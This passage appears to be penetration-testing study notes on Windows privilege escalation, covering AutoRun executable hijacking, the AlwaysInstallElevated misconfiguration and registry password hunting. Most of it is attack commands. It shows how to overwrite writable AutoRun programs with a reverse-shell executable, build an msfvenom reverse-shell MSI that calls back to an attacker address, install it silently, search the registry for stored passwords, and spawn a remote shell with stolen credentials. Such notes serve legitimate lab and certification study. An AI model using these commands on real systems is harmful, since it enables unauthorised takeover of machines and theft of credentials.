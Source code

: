 ### DLL Hijacking

Requires: SERVICE_START/STOP

(might require admin privs, check the PDF for details on how to perform)

---

## Registry

### AutoRun

NOTE: This will only run with the privileges of the last logged in user in Win 10! So you need admin creds first (making it less reliable)

1. Check for writable AutoRun exes
	1. `.\winPEASany.exe quiet applicationsinfo`
	2. Or manually:
		1. `reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`
		2. Verify each entry with accesschk:
			`.\accesschk.exe /accepteula -wvu "C:\Program Files\<path to program>\program.exe"`
2. If writeable, create a backup: `copy "C:\Program Files\<path to program>\program.exe" C:\temp`
3. Copy revshell exe: `copy /Y C:\temp\revshell.exe "C:\Program Files\<path to program>\program.exe"`
4. Start revshell listener and restart the box

### AlwaysInstallElevated

Requires: AlwaysInstallElevated reg entries

1. Verify that the required entries are both set to 1
	1. Using winPEAS: `.\winPEASany.exe quiet windowscreds`
	2. Manually:
		1. `reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`
		2. `reg query HKLM\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`
2. Create a msfvenom revshell: `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.0.1 LPORT=443 -f msi -o revshell.msi`
3. Copy the msi file to the target and start a listener
4. Start the installer: `msiexec /quiet /qn /i C:\temp\revshell.msi`

---

## Passwords

### Registry Search

The slow way (scans the entire registry):
```
> reg query HKLM /f password /t REG_SZ /s
> reg query HKCU /f password /t REG_SZ /s
```

The faster way:
1. Use winpeas to check common locations: `.\winPEASany.exe quiet filesinfo userinfo`
2. Verify using registry queries
3. If verified, we can use winexe to spawn a shell: `winexe -U 'user%password' //the.targets.ip.here cmd.exe`
